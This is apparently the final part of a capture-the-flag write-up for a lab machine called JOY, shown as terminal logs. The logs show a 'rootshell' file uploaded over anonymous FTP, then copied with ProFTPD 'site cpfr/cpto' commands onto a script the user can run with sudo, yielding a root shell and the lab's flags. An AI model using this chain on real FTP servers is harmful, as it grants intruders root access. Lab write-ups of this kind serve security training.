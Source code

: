 ```bash
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> cd upload
250 CWD command successful

ftp> put rootshell
local: rootshell remote: rootshell
229 Entering Extended Passive Mode (|||11578|)
150 Opening BINARY mode data connection for rootshell
100% |*************************************************************************|    10      171.32 KiB/s    00:00 ETA
226 Transfer complete
10 bytes sent in 00:00 (14.40 KiB/s)
ftp>
```

```bash
❯ telnet 10.11.12.24 21
Trying 10.11.12.24...
Connected to 10.11.12.24.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server

site cpfr /home/ftp/upload/rootshell
350 File or directory exists, ready for destination name

site cpto /home/patrick/script/test
250 Copy successful
```

```bash
patrick@JOY:~$ sudo /home/patrick/script/test
sudo /home/patrick/script/test

root@JOY:/home/patrick# cd /root
cd /root
root@JOY:~# ls
ls
author-secret.txt      dovecot.crt  dovecot.key     proof.txt   rootCA.pem
document-generator.sh  dovecot.csr  permissions.sh  rootCA.key  rootCA.srl

root@JOY:~# cat proof.txt
cat proof.txt
Never grant sudo permissions on scripts that perform system functions!

root@JOY:/# cat /local.txt
cat /local.txt
SNMP tells too much information about what may exist in a machine. :-)
```

Hope it helps!